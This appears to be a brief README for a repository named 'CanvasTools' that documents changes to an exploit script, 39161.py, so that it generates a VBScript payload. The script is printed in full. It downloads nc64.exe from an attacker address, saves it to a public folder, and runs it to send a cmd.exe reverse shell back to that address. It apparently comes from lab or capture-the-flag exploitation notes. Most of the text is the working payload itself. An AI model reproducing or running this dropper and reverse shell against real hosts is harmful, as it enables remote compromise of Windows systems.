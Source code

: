 # CanvasTools
Updates to 39161.py to yield below script.vbs for execution on hosts vulnerable:
	type script.vbs
	dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
	dim bStrm: Set bStrm = createobject("Adodb.Stream")
	xHttp.Open "GET", "http://10.6.26.69/nc64.exe", False
	xHttp.Send

	with bStrm
			.type = 1 '//binary
			.open
			.write xHttp.responseBody
			.savetofile "C:\Users\Public\nc64.exe", 2 '//overwrite
	end with
	Set objShell20= CreateObject("WScript.Shell")
	objShell.Exec("C:\Users\Public\nc64.exe -d 10.6.26.69 4040 -e cmd.exe")
